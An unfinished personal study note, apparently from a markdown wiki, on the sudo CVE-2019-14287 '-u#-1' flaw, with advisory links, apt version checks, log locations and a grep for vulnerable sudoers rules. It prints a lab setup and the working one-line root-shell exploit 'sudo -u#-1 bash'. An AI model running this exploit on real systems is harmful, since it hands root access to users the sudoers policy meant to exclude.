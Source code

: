 # CVE

## MAIN

CVE - Common Vulnerabilities and Exposures

{% hint style="danger" %}
Read more about PAM
{% endhint %}

### CVE-2019-14287 sudo minus 1 uid

#### src

* [sudo.ws](https://www.sudo.ws/alerts/minus_1_uid.html)
* [CVE](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)
* [launchpad.net/ubuntu](https://launchpad.net/ubuntu) -&gt; find package

#### Details

check `sudo` version `$ sudo -V`

`$ apt show sudo` -&gt; `http://www.sudo.ws/`

```bash
$ sudo adduser alexis
$ sudo visudo
# PAM file
alexis ALL=(ALL, !root) ALL

(alexis) $ sudo -u#-1 bash
```

How to downgrade a package?

{% hint style="danger" %}
fill in
{% endhint %}

How to upgrade only sudo pkg?

{% hint style="danger" %}
fill in
{% endhint %}

What is `$ sudo apt dist-upgrade` ?

{% hint style="danger" %}
fill in
{% endhint %}

Is there a way I can see all the versions that are in the archives that I have configured in `sources.list`. I can see the last version of each archive with `apt-get policy`, but how can I see them all?

```bash
$ apt list -a <pkg name>
```

{% hint style="info" %}
check what is `madison` ?
{% endhint %}

Where you can see the logs of `sudo` activity?

```bash
# Ubuntu
/var/log/auth.log 
```

Checking if your environment is affected:

```bash
$ cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!root\s*)"
```

`\s` stands for whitespace character, matches a space, a tab, a line break etc.

\`\`



